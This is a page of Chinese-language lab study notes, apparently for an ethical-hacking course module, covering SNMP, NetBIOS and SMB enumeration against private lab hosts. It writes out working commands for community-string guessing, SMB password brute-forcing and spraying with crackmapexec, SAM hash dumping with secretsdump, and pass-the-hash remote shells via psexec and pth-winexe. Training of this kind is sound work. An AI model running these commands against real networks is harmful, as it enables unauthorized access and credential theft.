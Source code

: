 Enumeration & Service
===

🔙 [MENU README](../README.md)

# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```
---

# SNMP
SNMP 是一種用於管理和監視網絡設備的協議，通常在路由器、交換機、伺服器等設備上使用
```bash
sudo nmap 192.168.0.* --open -p161 -sU -oG - | grep Up | cut -d ' ' -f2 > snmp_list

sudo nmap 192.168.0.1 --open -p161 
# 觀察:
# 上面掃描的時候明明192.168.0.1有開snmp
# 怎麼單獨掃就沒有了呢

sudo nmap 192.168.0.1 --open -p161 -sU --reason
# 觀察:
# nmap若不加-sU會將Reason : no-response當作沒有開啟
```
snmp-check
```bash
# 檢查snmp配置和安全性的工具
snmp-check 192.168.0.20

snmp-check 192.168.0.22
```
onesixtyone
```bash
# onesixtyone 通常用於查找社群字串（community strings）或爆破 SNMP v1/v2 的密碼

# 嘗試使用 "public" 作為 Coummunty Strings 來訪問目標設備的 SNMP 服務，以收集有關設備的信息
onesixtyone -i snmp_list public # 蒐集主機資訊
```
Nmap Script - SNMP Account
```bash
sudo nmap 192.168.0.20 -p161 -sU -n -Pn --script snmp-win32-users
```
---

# NetBIOS & NetBT
Introduction
```bash
# port
UDP 137,138

# NetBIOS 
NetBIOS 是指 Network Basic Input/Output System，是一個作業系統級的API

# NetBT
NetBT能讓舊有運用NetBIOS API的軟體，能夠在現代TCP/IP網路上繼續運作，即NetBIOS over TCP/IP
NetBT 需要每台計算機有一個唯一的 NetBIOS 名稱，這通常就是該計算機的Computer Name
```
Detection Windows
```bash
# Cmd
nbtstat -n   # Local Computer Name
nbtstat -a $ComputerName  # 指定host的NetBIOS資訊
nbtstat -A $IP            # Remote Host的NetBIOS資訊
ping $ComputerName
nbtstat -c                # Cache Record
```
Access Windows
```bash
# Windows
net view
net view /domain
net view /domain:workgroup
net view \\192.168.0.7
net view \\$ComputerName

net view \\$ComputerName /all
dir \\$ComputerName/c$

net use \\$ComputerName Pa$$w0rd /u:administrator
```
Detection Linux
```bash
# Scan
nbtscan 192.168.0.1-254
nbtscan 192.168.0.22 -v

# ComputerName > IP
nmblookup $ComputerName
# IP > ComputerName
nmblookup -A $IP
```
Access Linux
```bash
smbclient -N -L 192.168.0.22  #匿名登入並列舉
smbclient -U 'Administrator%Pa$$w0rd' //192.168.0.22/c$
smbclient -U 'Administrator%Pa$$w0rd' //192.168.0.22/c$ -c 'dir'
```
---

# CIFS / SMB
Detect
```bash
# port
TCP 139,445

nmap -iL -p445 -sVC
nmap --script smb-os-discovery,smb-protocols
nmap 192.168.0.* -p445 --open -n -Pn -oG - | grep Up | cut -d ' ' -f2 > ip_smb
```
Crack Password
```bash
# crackmapexec高效SMB爆破工具
# Install
python3 -m pip list | grep impacket # Impacket Version > 0.9.23
python3 -m pip install --upgrade impacket

# 密碼爆破
crackmapexec smb ip_smb -u administrator -p $passwordlist | grep 'Pwn3d!'

# 密碼噴灑
crackmapexec smb 192.168.0.7 -u userlist. -p $password --continue-on-success
```
Access
```bash
# psexec
psexec.py 'administrator:Pa$$w0rd'@192.168.0.22

# winexe
winexe -U 'Username%Password' //<IP> cmd.exe
winexe -U 'administrator%Pa$$w0rd' //192.168.0.22 cmd.exe

# Hash Access
# Get User + SAM Hash
secretsdump.py 'administrator:Pa$$w0rd'@192.168.0.7
# pth-winexe 在2016後的機器成功率其實不高
pth-winexe –U 'Username%<LM_hash:NTLM_hash>' //<IP> cmd.exe
psexec.py 'administrator'@192.168.0.22 -hashes :$hash
```
---

# RDP
```bash
```

# Machine Information Scan
```bash
# Computer Name
# OS / Server Version
# SSH key
```
